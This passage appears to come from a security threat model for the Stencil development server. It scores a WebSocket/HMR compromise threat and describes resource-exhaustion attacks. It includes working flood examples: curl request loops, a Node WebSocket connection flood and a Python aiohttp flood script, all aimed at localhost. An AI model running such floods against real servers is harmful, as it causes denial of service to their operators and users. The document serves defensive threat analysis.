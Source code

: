 **Impact:**
- Compromise of development environment
- Theft of proprietary source code
- Injection of malicious code into development builds

| Score | Rationale |
|-------|-----------|
| **Damage** | 8 | Could inject malicious code via HMR, compromise development environment |
| **Reproducibility** | 7.5 | Requires developer to visit malicious site while dev server is running |
| **Exploitability** | 5 | Requires creating malicious website and social engineering |
| **Affected Users** | 2.5 | Individual developer affected |
| **Discoverability** | 9 | WebSocket endpoints are predictable |

**DREAD Score: 32/50 - HIGH**

**Threat #6: Resource exhaustion**
- **Category**: Denial of Service
- **Description**: Resource exhaustion attacks targeting the Stencil dev server through excessive HTTP requests, WebSocket connections, or resource-intensive operations. Since dev servers typically lack production-grade rate limiting and resource management, they can be easily overwhelmed by automated attacks or even accidental excessive requests.

**Attack Scenarios:**
1. **HTTP flood**: Overwhelming the server with rapid HTTP requests
2. **WebSocket exhaustion**: Opening numerous WebSocket connections to exhaust memory
3. **Large file requests**: Requesting large assets repeatedly to exhaust bandwidth/memory
4. **Concurrent build triggers**: Triggering multiple simultaneous rebuilds

**Example Attack:**
```bash
# Simple HTTP flood attack
for i in {1..10000}; do
  curl "http://localhost:3333/" &
done

# WebSocket connection exhaustion
node -e "
for(let i=0; i<1000; i++) {
  new require('ws')('ws://localhost:3333');
}
"

# Large file request loop
while true; do
  curl "http://localhost:3333/large-video-file.mp4" &
done
```

**Automated Attack Script:**
```python
import asyncio
import aiohttp

async def flood_attack():
    connector = aiohttp.TCPConnector(limit=1000)
    async with aiohttp.ClientSession(connector=connector) as session:
        tasks = []
        for i in range(10000):
            task = session.get('http://localhost:3333/')
            tasks.append(task)
        await asyncio.gather(*tasks, return_exceptions=True)

asyncio.run(flood_attack())
```